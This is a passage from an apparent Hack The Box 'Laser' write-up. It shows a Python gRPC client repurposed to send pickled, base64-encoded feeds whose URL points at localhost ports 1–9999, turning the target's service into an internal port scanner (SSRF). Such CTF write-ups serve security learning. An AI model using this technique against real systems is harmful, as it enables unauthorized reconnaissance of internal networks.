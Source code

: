 Armed with this insight, we can re-purpose our gRPC client code into a port scanner of sorts, scanning in ports 1 to 9999, like so.

<div class="filename"><span>scanner.py</span></div>

```python
import grpc
import service_pb2
import service_pb2_grpc

import base64, os, pickle, zlib

def scan(port):

    json = '''
    {
        "version": "v1.0",
        "title": "Printer Feed",
        "home_page_url": "http://printer.laserinternal.htb/",
        "feed_url": "http://localhost:%d/",
        "items": [
            {
                "id": "2",
                "context_text": "Queue jobs"
            },
            {
                "id": "1",
                "context_text": "Failed items"
            }
        ]
    }
    '''

    feed = base64.b64encode(pickle.dumps(json % port))

    with grpc.insecure_channel("10.10.10.201:9000") as channel:
        stub = service_pb2_grpc.PrintStub(channel)
        response = stub.Feed(service_pb2.Content(data=feed))
        return response

if __name__ == '__main__':
    for port in range(1,10000):
        try:
            response = str(scan(port)).split('\n')[0]
        except Exception as error:
            if "refused" not in str(error.details()):
                print "%05d: %s" % (port, "open")
        else:
            print "%05d: %s" % (port, response)

```

{% include image.html image_alt="5b9bc844.png" image_src="/77e0085d-3198-472a-9f56-bf0531cc9eb3/5b9bc844.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/269
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/home/users/profile/13243
[4]: https://www.hackthebox.eu/
